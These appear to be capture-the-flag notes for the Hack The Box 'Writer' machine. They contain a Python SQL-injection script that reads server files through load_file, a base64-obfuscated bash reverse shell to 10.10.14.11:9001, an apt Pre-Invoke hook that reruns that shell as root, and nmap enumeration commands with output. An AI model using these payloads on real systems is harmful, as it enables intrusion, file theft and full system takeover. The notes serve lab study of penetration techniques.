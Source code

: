 ```bash
## python script to load file.
import requests
import sys
import re

url = "http://writer.htb/administrative"
# uname = admin' union select 1,load_file('/etc/apache2/sites-enabled/000-default.conf'),3,4,5,6;-- -
data = {"uname": f"admin' union select 1,load_file('{sys.argv[1]}'),3,4,5,6;-- -", "password":"password"}
req = requests.post(url, data=data)
print(req.text)


# lfi list
https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt
---- Foothold

echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash

-- kyle 

sendmail -f 'kyle@writer.htb' \
    -t 'john@writer.htb' \
    -s 127.0.0.1:25 \
    -u 'Your spreadsheet' \
    -m 'Here is your requested spreadsheet' 

mail from: kyle@writer.htb

RCPT TO: john@writer.htb


---- System
echo 'apt::Update::Pre-Invoke { "echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash"};' > 00-test

```







# Enum

## nmap scan



```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9820b9d0521f4e103a4a937e50bcb87d (RSA)
|   256 1004797a2974db28f9ffaf68dff13f34 (ECDSA)
|_  256 77c4869a9f334fda71202ce151107e8d (ED25519)
80/tcp    open   http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
```